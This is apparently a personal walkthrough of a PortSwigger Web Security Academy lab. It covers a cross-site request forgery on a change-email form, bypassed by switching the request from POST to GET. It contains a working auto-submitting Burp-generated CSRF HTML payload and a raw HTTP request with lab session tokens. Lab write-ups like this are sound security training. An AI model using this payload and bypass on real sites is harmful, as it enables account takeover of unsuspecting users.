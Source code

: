 ![[Pasted image 20241230191459.png]]
hit `Access The Lab`, brings us to the `blog` website click `my account`
![[Pasted image 20241230191535.png]]
login with `wiener:peter`
![[Pasted image 20241230191632.png]]
to generate a new `POST` using `testin@local.com`
![[Pasted image 20241230191710.png]]
this generates a post request that shows the `csrf` field that i believe is blocking, now we are going to test this with the `POST` parameter
![[Pasted image 20241230191805.png]]
generate a `CSRF` for this 
![[Pasted image 20241230191914.png]]
```js
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a67007d03cbad0189fc7d6b000e006c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="testing&#64;local&#46;com" />
      <input type="hidden" name="csrf" value="qIk9G1Kn0PHha2VW7xjwb3hDS5DbuM6o" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
click `go to exploit server`
![[Pasted image 20241230191957.png]]
view the exploit and paste the `CSRF` in the body with the new email being `testing2@local.com`
![[Pasted image 20241230192040.png]]
we can see that it changed correctly to `testing2.local.com`
![[Pasted image 20241230192132.png]]
now lets send to the victim with `testing3.local.com`
- when trying to send we get nothing back saying it worked, 
![[Pasted image 20241230192314.png]]
when checking to see if it did not change to `testin3@local.com`
![[Pasted image 20241230192347.png]]
to get this to work we have to send the `POST` request to `REPEATER`
![[Pasted image 20241230193934.png]]
now the `POST` request didnt work because of `CSRF` protections so we can hit the `HAMBURGER` button and select `CHANGE REQUEST METHOD` to change the request to `GET` request
![[Pasted image 20241230194344.png]]
this changes it to a `GET` request
![[Pasted image 20241230194408.png]]

```http
GET /my-account/change-email?email=testing2%40local.com&csrf=qIk9G1Kn0PHha2VW7xjwb3hDS5DbuM6o HTTP/2
Host: 0a67007d03cbad0189fc7d6b000e006c.web-security-academy.net
Cookie: session=onw67d9HbdeDLsVdfPpFfbDzVnDsJiP9
Cache-Control: max-age=0
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: https://exploit-0a0400b4037fad9a89c07c7701ff005f.exploit-server.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Referer: https://exploit-0a0400b4037fad9a89c07c7701ff005f.exploit-server.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

```
now submit and deliver to victim
![[Pasted image 20241230194517.png]]
WWWW
![[Pasted image 20241230194531.png]]
![[Pasted image 20241230194546.png]]
